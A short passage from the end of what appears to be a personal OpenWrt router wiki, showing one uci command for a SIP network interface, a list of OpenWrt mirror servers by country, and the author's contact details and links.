    uci set mmpbxrvsipnet.sip_net.interface6='lan6'

#### Mirror Servers for openwrt:

    http://mirrors.tuna.tsinghua.edu.cn/openwrt   HTTP, HTTPS, RSYNC     China
    http://tp.stw-bonn.de/pub/openwrt/            HTTP, FTP              Germany
    http://http://openwrt.emagnus.eu/openwrt/     HTTP, HTTPS, RSYNC     Germany
    http://ba.mirror.garr.it/mirrors/openwrt/     HTTP, FTP, RSYNC       Italy

## Be careful with settings not provided by me! ;)

#### AUTHOR/OWNER OF THIS WIKI IS wuseman

# CONTACT

    If you have problems, questions, ideas or suggestions please contact
    us by posting to info@sendit.nu

# WEB SITE

    Visit our homepage for the latest info and updated tools

    https://sendit.nu & https://github.com/wuseman/

### END!

